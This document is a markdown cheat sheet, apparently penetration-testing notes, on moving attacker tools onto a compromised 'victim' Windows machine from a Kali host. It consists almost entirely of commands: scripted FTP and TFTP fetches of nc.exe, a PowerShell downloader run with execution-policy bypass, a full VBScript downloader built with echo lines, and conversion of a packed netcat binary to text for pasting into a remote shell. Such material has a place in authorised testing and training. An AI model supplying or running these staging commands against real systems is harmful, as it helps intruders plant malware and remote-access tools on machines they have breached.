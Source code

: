 Uploading Tools to Windows
================================================================================

<br>

<details>
  <summary><b><u>
  FTP to FTPd
  </u></b></summary>

FTP to FTPd
--------------------------------------------------------------------------------

### [1] Prep the server

Recommend trying the Python ftp server first. It has often worked with Windows' built-in FTP client, and it leaves no lasting impact on your Kali system.

#### [1A] Option A: PureFTPd

One-time setup:

```
root@kali:~# apt-get install –y pure-ftpd
root@kali:~# groupadd ftpgroup
root@kali:~# useradd –g ftpgroup -d /dev/null –s /etc ftpuser
root@kali:~# pure-pw useradd hi5 –u ftpuser –d /ftphome
root@kali:~# pure-pw mkdb
root@kali:~# cd /etc/pure-ftpd/auth/
root@kali:~# ln –s ../conf/PureDB 60pdb
root@kali:~# mkdir –p /ftphome
root@kali:~# chown –R ftpuser:ftpgroup /ftphome/
```

Run the server:

```
root@kali:~# cp <tool.exe> /ftphome/
root@kali:~# systemctl start pure-ftpd.service
```

#### [1B] Option B: Python pyftpdlib

```
root@kali:~# cd /usr/share/windows-binaries/
root@kali:/usr/share/windows-binaries/# python -m pyftpdlib -p 21
```

### [2] Execute the transfer

```
victim> echo open <kali_ip_addr> > pre
victim> echo USER hi5 >> pre
victim> echo PASS 5ih >> pre
victim> echo ftp >> pre
victim> echo bin >> pre
victim> copy pre ftp
victim> echo GET tool.exe >> ftp
victim> echo bye >> ftp
victim> ftp –v –n –s:ftp
```

### [3] Tear down the server

For a Python pyftpdlib server, just hit <kbd>ctrl</kbd>+<kbd>C</kbd>.

For a PureFTPd server:

```
root@kali:~# systemctl stop pure-ftpd.service
```

<br>
</details>

<details>
  <summary><b><u>
  TFTP to TFTPd
  </u></b></summary>

TFTP to TFTPd
--------------------------------------------------------------------------------

*Fast if TFTP has been enabled.*

### One-time prep.

```
root@kali:~# mkdir /tftp
```

### Set up server.

```
root@kali:~# cp tool.exe /tftp/
root@kali:~# atftpd --daemon --port 69 /tftp
```

### Execute transfer

```
victim> tftp -i <kali_ip> get nc.exe
```

### Tear down server

```
root@kali:~# ps aux | grep atftpd
root@kali:~# kill -9 <PID>
```

<br>
</details>

<details>
  <summary><b><u>
  PowerShell “wget” to HTTPd (Windows 7, 2008, +)
  </u></b></summary>

PowerShell “wget” to HTTPd
--------------------------------------------------------------------------------

(Windows 7, 2008, +)

### Set up server.

```
root@kali:~# cp </dir/tool.exe> .
root@kali:~# python –m SimpleHTTPServer 80
```

### Build Powershell tool

```
victim> echo $storageDir = $pwd > wget.ps1
victim> echo $webclient = New-Object System.Net.WebClient >> wget.ps1
victim> echo $url = "http://<kali_ip_addr>/tool.exe" >> wget.ps1
victim> echo $file = ”tool.exe" >> wget.ps1
victim> echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

### Run Powershell tool

```
victim> powershell.exe –ExecutionPolicy Bypass –NoLogo -NonInteractive –NoProfile –File wget.ps1
```

### Tear down server

On Kali, <kbd>ctrl</kbd>+<kbd>C</kbd>.

<br>
</details>

<details>
  <summary><b><u>
  VBScript “wget” to HTTPd (Windows XP, 2003)
  </u></b></summary>

VBScript “wget” to HTTPd
--------------------------------------------------------------------------------

(Windows XP, 2003)

### Set up server.

```
root@kali:~# cp </dir/tool.exe> .
root@kali:~# python –m SimpleHTTPServer 80
```

### Build VBS tool

```
victim> echo strUrl = WScript.Arguments.Item(0) > wget.vbs
victim> echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
victim> echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
victim> echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
victim> echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
victim> echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
victim> echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
victim> echo Err.Clear >> wget.vbs
victim> echo Set http = Nothing >> wget.vbs
victim> echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
victim> echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
victim> echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
victim> echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
victim> echo http.Open "GET", strURL, False >> wget.vbs
victim> echo http.Send >> wget.vbs
victim> echo varByteArray = http.ResponseBody >> wget.vbs
victim> echo Set http = Nothing >> wget.vbs
victim> echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
victim> echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
victim> echo strData = "" >> wget.vbs
victim> echo strBuffer = "" >> wget.vbs
victim> echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
victim> echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
victim> echo Next >> wget.vbs
victim> echo ts.Close >> wget.vbs
```

### Run VBS tool

```
victim> cscript wget.vbs http://<kali_ip_addr>/tool.exe tool.exe
```

### Tear down server

On Kali, <kbd>ctrl</kbd>+<kbd>C</kbd>.

<br>
</details>

<details>
  <summary><b><u>
  Transfer PE as text in remote shell
  </u></b></summary>

Transfer PE as text in remote shell
--------------------------------------------------------------------------------

```
root@kali:~# cp /path/exe2bat.exe .
root@kali:~# cp /path/nc.exe .
root@kali:~# upx -9 nc.exe
root@kali:~# wine exe2bat.exe nc.exe nc.txt
root@kali:~# echo ""; cat nc.txt
```

Copy the contents of `nc.txt` and paste them into the victim’s remote shell. (The file contains many echo commands with hex values, then commands for `debug.exe` to reassemble and rename the executable.)

<br>
</details>

<br>